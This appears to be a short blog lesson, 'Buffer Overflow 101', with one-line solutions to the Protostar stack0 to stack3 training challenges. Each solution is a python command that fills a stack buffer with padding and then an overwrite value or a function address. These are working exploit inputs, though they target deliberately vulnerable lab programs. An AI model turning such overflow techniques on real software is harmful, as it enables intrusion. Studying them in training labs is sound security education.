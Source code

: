 ```yaml
---
title:   Buffer Overflow 101
classes: wide
header:
  teaser: /img/postcover/cover2.png
ribbon: blue
categories:
  - Lesson
toc: true
---
```


# Protostar

## stack0
https://exploit.education/protostar/stack-zero/

\`python -c "print('a'\*65)"\` | ./stack0  

## Stack1
./stack1 \`python -c "print('a'\*64+'dcba')"\`

## Stack2
export GREENIE= \`python -c "print('a'\*64+'\\x0a\\x0d\\x0a\\x0d')"\`
cause the stack works backwords
./stack2

## Stack3
objdump -t stack3
check the address of the "win" function and use it
\`python -c "print('a'\*64+'\\x24\\x84\\x04\\x08')"\`